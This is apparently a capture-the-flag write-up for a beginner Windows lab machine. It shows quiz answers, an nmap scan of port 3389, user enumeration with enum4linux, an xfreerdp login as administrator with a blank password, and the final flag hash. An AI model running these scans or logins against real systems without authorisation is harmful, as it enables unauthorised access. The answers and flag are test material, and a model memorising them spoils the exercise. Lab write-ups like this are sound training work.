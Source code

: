 Connect the VPN, spawn the VM.<br>
10.129.196.22

### Task 1:
What does the 3-letter acronym RDP stand for?<br>
Answer: Remote Desktop Protocol

### Task 2:
What is a 3-letter acronym that refers to interaction with the host through a command line interface?<br>
Answer: cli

### Task 3:
What about graphical user interface interactions?<br>
Answer: GUI

### Task 4:
What is the name of an old remote access tool that came without encryption by default and listens on TCP port 23?<br>
Answer: Telnet

### TASK 5
What is the name of the service running on port 3389 TCP?<br>
Running the command<br>
```
nmap -sS 10.129.196.22 -sV -p3389 -n -Pn
```

Gives the output:<br>
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-27 17:01 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.129.196.22
Host is up (0.24s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.36 seconds
```

Answer: ms-wbt-server<br>

### TASK 6
What is the switch used to specify the target host's IP address when using xfreerdp?<br>
```
xfreerdp --help
```
gives the help, allowing us to see the relevant switches<br>
Answer:/v

### TASK 7
What username successfully returns a desktop projection to us with a blank password?<br>
Run the command:<br>
```
enum4linux -a 10.129.196.22
```

Gives the output:<br>
```
 =========================================( Target Information )=========================================

Target ........... 10.129.196.22
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```

Running the command<br>
```
xfreerdp /v:10.129.196.22 /u:administrator
```
Accepting the certificate prompt, and entering a blank password allowed the connection.<br>

Answer: Administrator

### SUBMIT FLAG
Submit root flag<br>

The flag is on the desktop of the administrator account.<br>

Answer: 951fa96d7830c451b536be5a6be008a0<br>